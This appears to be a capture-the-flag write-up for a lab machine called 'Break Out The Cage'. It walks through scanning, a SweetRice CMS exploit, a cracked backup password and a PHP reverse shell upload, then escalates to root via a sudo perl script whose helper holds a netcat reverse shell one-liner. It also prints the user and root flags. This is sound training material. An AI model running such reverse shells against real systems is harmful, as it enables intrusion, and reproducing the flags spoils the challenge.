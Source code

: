 <head>
<h1><center>Break Out The Cage</center></h1>
</head>

## Description

<img src="./images/des.png" width="450">

<br>

## Enumeration

We are provided with the IP of the machine.

### Port Scan

&nbsp;&nbsp;Basic port scan shows that there are three open ports on the machine.

```
PORT      STATE    SERVICE    VERSION
22/tcp    open     ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp    open     tcpwrapped
10082/tcp filtered amandaidx
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Port 80

Going over to the port 80 shows default Apache webpage.

Directory Scan shows some interesing pages

```
403      GET        9l       28w      277c http://10.10.60.215/.htpasswd
403      GET        9l       28w      277c http://10.10.60.215/.htaccess
301      GET        9l       28w      314c http://10.10.60.215/content
301      GET        9l       28w      325c http://10.10.60.215/content/attachment
403      GET        9l       28w      277c http://10.10.60.215/server-status
200      GET       15l       74w     3338c http://10.10.60.215/icons/ubuntu-logo.png
200      GET      375l      968w    11321c http://10.10.60.215/index.html
403      GET        9l       28w      277c http://10.10.60.215/icons/
301      GET        9l       28w      318c http://10.10.60.215/content/inc
200      GET       36l      151w     2198c http://10.10.60.215/content/index.php
```

Here the most interesting directories are `/content/` and `/content/attachment/`

Visiting `/content/` shows some kind of website under development.

<img src="./images/web.png">

At this point we know that this website is using `SweetRice CMS`.

Now searching for the exploits we find this [script](https://www.exploit-db.com/download/40716)


Now checking the `attachments` we can find this file `mysql_bakup_20191129023059-1.5.1.sql` which has username, password hash.
Using [CrackStation](https://crackstation.net) we can find the password.

```
username : manager
password : Password123
```

Now using the above script we can upload a reverse shell onto the machine.

Here I have used the PHP reverse shell from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
<img src="./images/ban.png">

Heading over to the url `http://10.10.60.215/content/attachment/penmonkey.php5` gives us the shell.
After getting shell in order to stabilize it we can use Python.

```
python -c "import pty; pty.spawn('/bin/bash')"
```

Learn more about stabilizing shells [here](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-2-using-socat)

<br>

## Machine

We are logged in as `www-data`.

Now `sudo -l` command shows us this

```
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Now checking the script `backup.pl`

```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

Ahh!! Another script..😫

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Whoa It's a reverse shell..
And we have write access to this file

Change the host IP and port to our local machine's IP and running the command `sudo /usr/bin/perl /home/itguy/backup.pl` will give us the shell as `root`.

<br>

user flag

```
THM{63e5bce9271952aad1113b6f1ac28a07}
```

root flag

```
THM{6637f41d0177b6f37cb20d775124699f}
```
